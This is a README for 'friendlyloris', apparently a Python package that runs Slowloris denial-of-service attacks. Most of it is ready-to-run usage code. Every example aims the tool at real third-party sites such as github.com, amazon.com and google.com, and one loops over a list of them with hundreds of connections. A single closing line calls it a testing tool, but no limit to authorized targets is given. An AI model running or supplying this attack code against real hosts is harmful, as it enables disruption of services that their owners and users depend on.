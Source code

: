 # ✨ friendlyloris, a simple slow loris package for Python ✨

### Here is a minimal start:

1.  Install with `pip install friendlyloris`
2.  Run the following code:

        from friendlyloris import FriendlyLoris

        loris = FriendlyLoris(host="github.com")

        loris.run()

### The following options are available. The only required option is host:

- **Host** *The URL or IP address we want to connect to*
- **Port** *The port number we will use to connect*
- **Https** *If we will start an encrypted connection*
- **Connections** *The number of simultanious connections we will make*
- **Interval** *The number of seconds we wait before refreshing connections*
- **Loops** *How many times we will refresh connections*
- **Verbose** *If we want to see verbose logging*

### Here is an example with the default values:

    from friendlyloris import FriendlyLoris

    loris = FriendlyLoris(
        host = "github.com",
        port = 443,
        https = True, 
        connections = 200, 
        interval = 10, 
        loops = 5, 
        verbose = False
        )

    loris.run()

### A few more examples below:

Connecting with plaintext HTTP:

    from friendlyloris import FriendlyLoris

    loris = FriendlyLoris(
        host = "github.com",
        port = 80,
        https = False
        )

    loris.run()

More connections and verbose logging:

    from friendlyloris import FriendlyLoris

    loris = FriendlyLoris(
        host = "github.com",
        connections = 500,
        verbose = True
        )

    loris.run()

More connections, shorter timeout and 1 loop:

    from friendlyloris import FriendlyLoris

    loris = FriendlyLoris(
        host = "github.com",
        connections = 500,
        interval = 5,
        loops = 1
        )

    loris.run()

Finally, quick tests running against a list of sites:

    from friendlyloris import FriendlyLoris

    hosts = [
        "github.com",
        "stackoverflow.com",
        "amazon.com",
        "google.com",
    ]

    for site in hosts:

        loris = FriendlyLoris(
            host = site,
            connections = 100,
            interval = 5,
            loops = 2,
            verbose = True
            )

        loris.run()

A [good article](https://www.cloudflare.com/learning/ddos/ddos-attack-tools/slowloris/) on how this works 🎉

This was designed for testing, not malice 😊 Please use as such 😇

Enjoy 🤙